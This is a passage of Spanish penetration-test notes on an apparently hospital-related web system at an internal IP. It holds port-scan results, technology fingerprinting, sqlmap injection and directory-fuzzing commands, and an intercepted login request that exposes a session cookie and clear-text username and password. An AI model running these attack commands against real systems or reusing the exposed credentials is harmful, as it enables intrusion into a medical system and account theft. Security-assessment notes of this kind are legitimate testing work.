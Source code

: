 # https://192.168.5.110/

#### Reconocimiento 
*`nmap -p- --open --min-rate 1000 -sSCV -n -Pn -vvv 192.168.5.110 -oG allPorts`*

Hallazgos:
```ruby
PORT      STATE SERVICE      REASON
22/tcp    open  ssh          syn-ack ttl 62
443/tcp   open  https        syn-ack ttl 62
2000/tcp  open  cisco-sccp   syn-ack ttl 64
5060/tcp  open  sip          syn-ack ttl 64
10050/tcp open  zabbix-agent syn-ack ttl 62
```

#### Tecnologías web:
*`whatweb https://192.168.5.110/`*

```ruby
https://192.168.5.110/ [200 OK] Bootstrap, 
Cookies[JSESSIONID], 
Country[RESERVED][ZZ], 
HTML5, HttpOnly[JSESSIONID], 
IP[192.168.5.110], 
JQuery[3.6.1], 
Java[2.3], PasswordField[J_PASSWORD,anterior,nueva,nuevarep], Script[module,text/javascript], 
Strict-Transport-Security[max-age=31536000; includeSubDomains], 
Title[HP-HCIS Control d`accés Node:hcis4pre01], UncommonHeaders[content-security-policy-report-only], X-Frame-Options[SAMEORIGIN], X-Powered-By[JSP/2.3], X-XSS-Protection[1; mode=block]

```

*`wapapalyzer`*

![[Pasted image 20250627100447.png]]

#### Login
*Inyección SQL `sqlmap`*
`sqlmap -u https://192.168.5.110/ --forms --dbs --batch`

*Fuzzing `gobuster`*
`gobuster dir -u https://192.168.5.110/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -k`

Hallazgos
- https://192.168.5.110/console  CODE:302

*Fuzzing `wfuzz`*
` wfuzz -c --hc=404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u "https://192.168.5.110/FUZZ" -t 20`

Hallazgos
- https://192.168.5.110/console  CODE: 302

*Interceptar petición login `burpsuite`*
```ruby
POST /hphis/ProcesarLogin.jsp HTTP/1.1
Host: 192.168.5.110
Cookie: JSESSIONID="VoI3sT0I6ZEu_6Aw_1rMkePXAc11gsObTFv9UEJt.Nodo1:hcis"; login_USERNAME="OLn3tAXO8jb5juQYgxOx2huS7bPRZZZe3p+fW876lQGXyp5tlds6jA=="
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://192.168.5.110/
Content-Type: application/x-www-form-urlencoded
Content-Length: 183
Origin: https://192.168.5.110
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

_csrf=7a46eafd-1c66-4459-82ac-ed724e10c04e&url=&sil=HNSM&centro=HNSM&soloLogueo=N&timestamp=1751014109671&J_USERNAME=odelpozo&J_PASSWORD=SAAS000&Conexion=HNSM%7CHNSM&unidad=Sin+Unidad
```

Hallazgos:
- Se tramitan las credenciales en texto claro

## PAGINA PRINCIPAL https://192.168.5.110/hphis/edoctor/principal.jsp

